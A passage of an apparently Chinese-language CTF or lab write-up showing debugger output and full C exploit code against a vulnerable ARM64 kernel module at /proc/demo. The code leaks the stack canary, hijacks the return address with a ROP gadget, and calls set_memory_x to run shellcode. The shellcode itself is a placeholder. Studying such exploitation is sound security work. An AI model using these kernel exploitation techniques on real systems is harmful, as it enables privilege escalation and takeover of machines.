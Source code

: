 把断点打在gadget上，然后走到ret，查看x30(lr)寄存器：

```c
pwndbg> x /20i  0xffff80000884cc5c
   0xffff80000884cc5c:  mov     x1, x8
   0xffff80000884cc60:  mov     x0, x9
   0xffff80000884cc64:  blr     x10
   0xffff80000884cc68:  ldp     x29, x30, [sp], #16
=> 0xffff80000884cc6c:  ret
pwndbg> i r x30
x30            0xb0     176
```

所以可以确定通过0xb0偏移即可继续劫持ret地址：

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(){
    char buf[0x100];
    char exp[0x200];

    int f = open("/proc/demo",O_RDWR);

    // leak canary
    read(f,buf,0x100);
    long long canary =  *(long long *)(buf+128);

    *(long long *)(exp+128) = canary;
    
    /*
    panic:
    [    6.324054] x11: 00000000000001f8 x10: 00000000000001f0 x9 : 00000000000001e8
    [    6.324288] x8 : 00000000000001e0 x7 : 00000000000001d8 x6 : 00000000000001d0 
    
    ROP:
    0x0884cc5c: mov x1, x8; mov x0, x9; blr x10; ldp x29, x30, [sp], #0x10; ret; 

    /home/pwn # cat /proc/kallsyms | grep set_memory_x
    ffff800008030948 T set_memory_x
    */
   
    *(long long *)(exp+0x90)  = 0xffff80000884cc5c;  // rop gadget

    *(long long *)(exp+0x1e8) = 0xffff800000e42388;  // x9 -> x0
    *(long long *)(exp+0x1e0) = 1;                   // x8 -> x1    
    *(long long *)(exp+0x1f0) = 0xffff800008030948;  // set_memory_x

    *(long long *)(exp+0xb0 ) = 0xffff800000e42388;  // shellcode addr

    *(long long *)(exp)       = 0x1234567812345678;  // shellcode

    write(f,exp,0x200);
}
```
